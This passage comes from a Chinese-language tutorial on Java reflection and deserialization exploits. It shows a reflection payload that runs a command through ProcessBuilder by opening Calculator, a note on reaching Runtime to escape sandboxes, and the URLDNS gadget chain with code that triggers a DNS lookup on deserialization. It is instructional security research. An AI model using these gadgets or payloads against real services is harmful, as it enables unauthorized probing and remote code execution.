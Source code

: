 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108172216070.png-water_print](assets/1699411738-94c07cfbf22ab62dbd92d99e47941393.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108172216070.png-water_print")

传给 `ProcessBuilder` 的也是一个可变长参数，二者叠加为一个二维数组，所以整个 Payload 如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>Class clazz = Class.forName("java.lang.ProcessBuilder");<br><br>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"open", "/System/Applications/Calculator.app"}}));<br>``` |

### [](#37-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B8%8E%E5%8F%8D%E5%B0%84)3.7 反序列化漏洞与反射

在安全研究中，使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。比如，上下文中如果只有 Integer 类型的数字，如何获取到可以执行命令的 Runtime 类：

比如可以这样（伪代码）：`1.getClass().forName("java.lang.Runtime")`

## [](#4-dnsurl-gadget-%E5%88%86%E6%9E%90)4 DNSURL gadget 分析

### [](#41-%E8%B0%83%E7%94%A8%E9%93%BE)4.1 调用链

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br> *     HashMap.readObject()<br> *       HashMap.putVal()<br> *         HashMap.hash()<br> *           URL.hashCode()<br>``` |

payload：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```java<br>HashMap ht = new HashMap(); <br>URL u = new URL("dnslog");<br>// 这里在序列化时不发送请求，防止在反序列化探测时误判<br>Class c = u.getClass();<br>Field f = c.getDeclaredField("hashCode");<br>f.setAccessible(true);<br>f.set(u, 1234);<br>ht.put(u, "Geekby");<br>// 把 hashcode 改为 -1，还原<br>f.set(u, -1);<br>``` |

### [](#42-%E5%88%86%E6%9E%90)4.2 分析

首先查看 HashMap 的 ReadObject 方法

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108252101230.png-water_print](assets/1699411738-9f2f21013d801277187a328d8317de17.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108252101230.png-water_print")
